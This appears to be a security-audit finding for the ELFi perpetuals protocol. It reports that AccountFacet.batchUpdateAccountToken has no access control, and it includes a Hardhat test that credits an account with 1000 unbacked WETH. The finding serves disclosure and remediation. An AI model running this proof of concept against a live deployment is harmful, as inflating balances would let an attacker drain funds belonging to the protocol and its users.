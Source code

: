 Soft Blonde Hamster

High

# `AccountFacet.batchUpdateAccountToken` has no access control

## Summary
`AccountFacet.batchUpdateAccountToken` has no access control

## Vulnerability Detail
### POC
1. Deposit 1 WETH to user0.
2. Call `accountFacet.batchUpdateAccountToken(user0, [weth], [1000e18])`.
3. user0 has 1001 WETH according to the account info.

Create a file `elfi-perp-contracts/test/single-cases/batchUpdateAccountToken.test.ts` as below.

```typescript
import { expect } from 'chai'
import { Fixture, deployFixture } from '@test/deployFixture'
import { precision } from '@utils/precision'
import {
  AccountFacet,
  ConfigFacet,
  FeeFacet,
  MarketFacet,
  MockToken,
  OrderFacet,
  PoolFacet,
  PositionFacet,
  TradeVault,
} from 'types'
import { HardhatEthersSigner } from '@nomicfoundation/hardhat-ethers/signers'
import { Contract } from 'ethers'
import { handleOrder } from '@utils/order'
import { handleMint } from '@utils/mint'
import { OrderSide, PositionSide } from '@utils/constants'
import { account } from '@utils/account'
import { deposit } from '@utils/deposit'
import { ethers } from 'hardhat'
import { oracles } from '@utils/oracles'
import accountFacet from "../../deploy/facets/AccountFacet";

describe('batchUpdateAccountToken', function () {
  let fixture: Fixture
  let tradeVault: TradeVault,
    marketFacet: MarketFacet,
    poolFacet: PoolFacet,
    accountFacet: AccountFacet,
    positionFacet: PositionFacet,
    feeFacet: FeeFacet,
    configFacet: ConfigFacet
  let user0: HardhatEthersSigner, user1: HardhatEthersSigner, user2: HardhatEthersSigner
  let tradeVaultAddr: string,
    portfolioVaultAddr: string,
    wbtcAddr: string,
    wethAddr: string,
    usdcAddr: string
  let btcUsd: string, ethUsd: string, xBtc: string, xEth: string, xUsd: string
  let wbtc: MockToken, weth: MockToken, usdc: MockToken

  beforeEach(async () => {
    fixture = await deployFixture()
    ;({tradeVault, marketFacet, poolFacet, accountFacet, positionFacet, feeFacet, configFacet} = fixture.contracts)
    ;({user0, user1, user2} = fixture.accounts)
    ;({btcUsd, ethUsd} = fixture.symbols)
    ;({xBtc, xEth, xUsd} = fixture.pools)
    ;({wbtc, weth, usdc} = fixture.tokens)
    ;({tradeVaultAddr, portfolioVaultAddr} = fixture.addresses)
    wbtcAddr = await wbtc.getAddress()
    wethAddr = await weth.getAddress()
    usdcAddr = await usdc.getAddress()
  })

  it('POC: No access control', async function () {
    const wethAmount = precision.token(1) // 1 WETH
    await deposit(fixture, {
      account: user0,
      token: weth,
      amount: wethAmount,
    })

    await accountFacet.batchUpdateAccountToken({
      account: user0.address,
      tokens: [wethAddr],
      changedTokenAmounts: [1000n * 10n ** 18n],
    });

    const accountInfo = await accountFacet.getAccountInfo(user0.address);
    expect(accountInfo.tokenBalances[0].amount).to.equals(1001n * 10n ** 18n);
  });
});
```

Then run the test.
```shell
cd elfi-perp-contracts
npm test ./test/single-cases/batchUpdateAccountToken.test.ts
```

## Impact
Users can increase their token balances at will. 

## Code Snippet

https://github.com/sherlock-audit/2024-05-elfi-protocol/blob/7e0cead5273b386ca7a1f754483dc387671a35c1/elfi-perp-contracts/contracts/facets/AccountFacet.sol#L68

## Tool used

Manual Review

## Recommendation
Add a proper access control to `AccountFacet.batchUpdateAccountToken`.